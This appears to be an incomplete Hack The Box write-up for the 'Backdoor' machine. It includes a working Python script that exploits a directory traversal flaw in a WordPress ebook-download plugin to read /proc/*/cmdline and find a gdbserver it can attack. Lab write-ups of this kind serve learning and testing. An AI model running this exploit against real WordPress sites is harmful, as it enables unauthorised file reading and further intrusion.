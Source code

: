 ```yaml
---
title: Backdoor - Easy
categories: htb LFI RCE
excerpt: | 
  Linux machine with a vulnerable page. 

feature_text: |
  ## Backdoor - Easy
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```



### Scanning process
nmap ip:
``` 

``` 
Starting with the port 80... We have to examine what type of service is, so `whatweb 'http://10.10.11.125'` will determinete the next steps. 
It is running WordPress, it is known some directory that are abaible like wp-content and especificly `wp-content/plugins`. It is tipical that a service like WordPress has some plugins unupdate. And it is our case. 
`searchsploit wordpress ebook download` it is vulnerable to a Directory traversal attacks.


### Scripting in python
Now it time to type some code in python to exploit this LFI. There are some path that are interesting to seach into, like /proc where is located all actived process and more interesting how were they runned.
``` python
#!/usr/bin/python3

from pwn import *
import time, pdb, signal, sys, requests

# Global
main_url = "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/"

# Ctrl+C
def def_handler(signum, frame):
    print("[!] Saliendo...")
    sys.exit(1)

def bruteForce():
    p1 = log.progress("Brute Force:")
    p1.status("Starting attack")

    s = requests.session()
    time.sleep(2)

    for i in range(1, 1000):
        p1.status("Trying with /proc/%s/cmdline" % str(i))
        
        url = main_url + str(i) + "/cmdline"
        r = s.get(url)
        if( len(r.content) > 82 ):
            print("------------------------------------------------")
            log.info("/proc/%s/cmdline" % str(i))
            print(r.content)
            print("------------------------------------------------")

signal.signal(signal.SIGINT, def_handler)

if __name__ == "__main__":
    bruteForce()

```
>[*] /proc/858/cmdline
>/proc/858/cmdline/bin/sh\x00-c\x00while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \\;; done\x00'

>[*] /proc/859/cmdline
>/proc/859/cmdline/bin/sh\x00-c\x00while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done\x00'


We found a gdbserver running in port 1337. `searchsploit gdbserver` and follow the RCE attack



### Privilege scalation


